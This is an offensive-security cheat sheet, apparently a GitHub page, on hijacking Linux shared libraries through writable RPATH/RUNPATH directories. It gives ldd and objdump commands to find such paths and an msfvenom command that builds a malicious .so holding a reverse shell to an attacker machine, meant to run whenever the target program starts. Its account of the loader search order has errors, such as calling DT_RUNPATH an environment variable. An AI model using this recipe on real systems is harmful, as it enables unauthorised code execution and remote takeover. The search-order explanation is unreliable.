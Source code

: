 #### When a Linux application is executed, if it uses Shared Objects, is that it will search for those:
1. Any directories specified by -rpath-link options (RPATH)
2. Any directories specified by -rpath options (RPATH)
3. if the -rpath and -rpath-link options are not used, it will then search the contents of the environment variabled LD_RUN_PATH and LD_LIBRARY_PATH
4. Directories defined in the DT_RUNPATH environment variable first, if that does not exist, then the DT_RPATH
5. Then, the default lib directories, normally /lib and /usr/lib
6. Finally, any directories defined in the /etc/ld.so.conf file

- reference - https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_3.html

#### Determine
1. Determine the shared objects that are being loaded by an executable
2. Determine if the application was compiled with RPATH or RUNPATH options. If yes, can we write into the locations specified by the either of those options?

#### Determine the Shared Object Libraries Being loaded by an Executable

```
ldd /usr/local/bin/program
```

// what we are looking here, is to see if we can hijack any of the Shared Objects the executable is linking once we have determined if the executable was compiled with RPATH or RUNPATH options.
// if so, we will be able to drop our payload in the directories defined by either of those options.
// For that we can use:

```
objdump -x /usr/local/bin/program | grep RPATH
objdump -x /usr/local/bin/program | grep RUNPATH
```

- if it was compiled with the RPATH or RUNPATH options, the objdump output will be similar to:

```
RPATH /tmp/program/libs
RUNPATH /tmp/program/libs
```

> so if we know that the program executable was compiled with RPATH options pointing to /tmp/program/libs, we also know that RPATH is checked For linked Shared Objects before the /lib or /usr/lib directories, we can place our malicious .so file in the /tmp/program/libs directory, and it should be executed whenever the executable is launched.

#### Generate Backdoored Shared Object
```
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<kali ip> LPORT=<kali port> -f elf-so -o program.so
```

// with the above msfvenom command, we are creating a .so which is the name of one of the shared objects we know the program loads at runtime and using a stageless shell_reverse_tcp payload pointing to our attacker machine and port, where we will also setup a listener with the same payload.
